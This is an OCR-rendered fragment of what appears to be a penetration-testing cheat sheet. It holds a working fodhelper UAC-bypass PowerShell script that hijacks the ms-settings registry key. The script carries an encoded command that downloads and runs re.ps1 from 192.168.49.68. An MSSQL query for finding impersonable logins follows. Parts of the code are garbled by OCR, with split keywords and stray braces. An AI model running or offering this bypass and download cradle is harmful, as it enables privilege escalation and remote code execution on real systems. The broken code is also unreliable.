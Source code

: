 ```powershell

}

```

```powershell
function RegStuff { 
	$cmd = "C:\Windows\Tasks\foo.exe -enc aQBlAHgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAHMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgA0ADkALgA2ADgALwByAGUALgBwAHMAMQAnACkA" 
	copy C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe  C:\Windows\Tasks\foo.exe 
	Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force -ErrorAction SilentlyContinue 
	New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force 
	New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force 
	Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $cmd -Force 
	} f
	unction PrivEsc { 
	Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden Start-
	Sleep -s 3 
	Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force -ErrorAction SilentlyContinue 
	} 
RegStuff
```


## MSSQL

#### Users who can be impersonated:

```sql
SELECT p.name AS PrincipalName, p.type_desc AS PrincipalType, perm.permission_name AS Permission, r.name AS RoleName FROM sys.server_permissions AS perm JOIN sys.server_principals AS p ON perm.grantee_principal_id = p.principal_id LEFT JOIN sys.server_role_members AS rm ON p.principal_id = rm.member_principal_id LEFT JOIN sys.server_principals AS r ON rm.role_principal_id = r.principal_id WHERE perm.permission_name = 'IMPERSONATE' OR r.name IS NOT NULL;
```